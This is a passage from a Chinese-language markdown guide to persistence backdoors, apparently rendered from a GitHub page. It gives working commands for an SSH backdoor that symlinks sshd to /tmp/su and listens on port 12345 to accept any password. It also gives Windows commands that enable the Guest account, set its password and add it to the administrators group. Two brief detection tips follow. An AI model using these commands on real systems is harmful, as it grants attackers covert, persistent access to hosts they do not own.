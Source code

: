     使用软连接将PAM认证文件更改，通过软件连接的文件名再/etc/pam.d/目录下寻找对应的PAM配置文件，只要软连接文件内容中包括`auth sufficient pam_rootok.so` ， 即可实现SSH任意密码登录。
    
    ```bash
    ┌──(root㉿kali)-[~/Desktop]
    └**─# which sshd**
    /usr/sbin/sshd
    
    ┌──(root㉿kali)-[~/Desktop]
    └─**# ln -s /usr/sbin/sshd /tmp/su**
    
    ──(root㉿kali)-[~/Desktop]
    **└─# /tmp/su -oport=12345**
    
    ┌──(root㉿kali)-[~/Desktop]
    **└─# netstat -antlp**                                                                                                                          
    Active Internet connections (servers and established)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:44193         0.0.0.0:*               LISTEN      1114/containerd     
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      268888/sshd: /usr/s 
    tcp        0      0 0.0.0.0:12345           0.0.0.0:*               LISTEN      257245/su: /tmp/su  
    tcp6       0      0 :::22                   :::*                    LISTEN      268888/sshd: /usr/s 
    tcp6       0      0 :::12345                :::*                    LISTEN      257245/su: /tmp/su 
    ```
    
    在上面的操作中，SSH的认证文件被修改为etc/pam.d/su。
    
    PS: 防范措施
    
    - 查看是否有可疑的端口、进程
    - 检查pam_unix.so的修改时间
- **Inetd后门**

### Windows系统后门

- **Guest账户后门**
    
    ```bash
    **# 查看Guest账户**
    C:\Users\Administrator>**net user guest
    # 开启Guest账户**
    C:\Users\Administrator>**net user guest /active:yes
    # 给账户增加密码**
    C:\Users\Administrator>**net user guest ABC123456
    # 权限提升：将Guest加入管理员组**
    C:\Users\Administrator>**net localgroup administrators guest /add**
    ```
    
- **影子账户后门**
- **启动项类后门**
    